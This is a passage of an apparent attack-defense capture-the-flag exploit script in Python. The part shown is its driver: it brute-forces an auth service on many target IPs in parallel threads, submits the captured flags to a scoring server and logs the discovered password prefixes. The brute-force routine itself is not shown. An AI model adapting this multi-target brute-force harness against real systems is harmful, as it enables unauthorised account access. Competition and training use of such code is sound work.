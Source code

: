 ```python3
        print(f"{Colors.RED}[-] Could not get flag from {ip}{Colors.END}")
        return None

def submit_flag(flag):
    """Submit a flag to the scoring server"""
    headers = {
        "Content-Type": "application/json",
        "Authorization": f"Bearer {API_KEY}"
    }
    data = {"flag": flag}
    
    try:
        response = requests.post(SUBMIT_URL, headers=headers, json=data, timeout=5)
        return response.json() if response.status_code == 200 else response.text
    except Exception as e:
        return f"Error: {e}"

def main():
    print(f"{Colors.BLUE}=== Auth Service Brute Force Exploitation ==={Colors.END}")
    print(f"{Colors.YELLOW}[*] Targeting auth service on port {PORT}{Colors.END}")
    print(f"{Colors.YELLOW}[*] Will brute force each vulnerable target{Colors.END}")
    print(f"{Colors.YELLOW}[*] Skipping our IP: {MY_IP}{Colors.END}\n")
    
    results = []
    flags_found = []
    
    # Use thread pool for faster exploitation
    with ThreadPoolExecutor(max_workers=5) as executor:  # Reduced workers to avoid overwhelming targets
        # Submit all tasks
        future_to_ip = {executor.submit(exploit_single_target, ip): ip for ip in TARGETS}
        
        # Process results as they complete
        for future in as_completed(future_to_ip):
            result = future.result()
            if result:
                results.append(result)
                flags_found.append(result['flag'])
                
                # Submit flag immediately
                print(f"{Colors.YELLOW}[*] Submitting flag from {result['ip']}...{Colors.END}")
                submit_result = submit_flag(result['flag'])
                print(f"{Colors.GREEN}[+] Submission result: {submit_result}{Colors.END}\n")
    
    # Summary
    print(f"\n{Colors.BLUE}=== Summary ==={Colors.END}")
    print(f"Total targets scanned: {len(TARGETS)}")
    print(f"Total flags captured: {len(flags_found)}")
    
    # Save results
    with open("auth_bruteforce_results.txt", "w") as f:
        f.write("=== Auth Service Brute Force Results ===\n")
        f.write(f"Exploitation time: {time.strftime('%Y-%m-%d %H:%M:%S')}\n\n")
        for result in results:
            f.write(f"{result['ip']}: flag={result['flag']} (first_char='{result['first_char']}')\n")
    
    print(f"\n{Colors.GREEN}Results saved to auth_bruteforce_results.txt{Colors.END}")
    
    # Print discovered passwords for future use
    print(f"\n{Colors.BLUE}=== Discovered Password Prefixes ==={Colors.END}")
    for result in results:
        print(f"{result['ip']}: '{result['first_char']}'")
```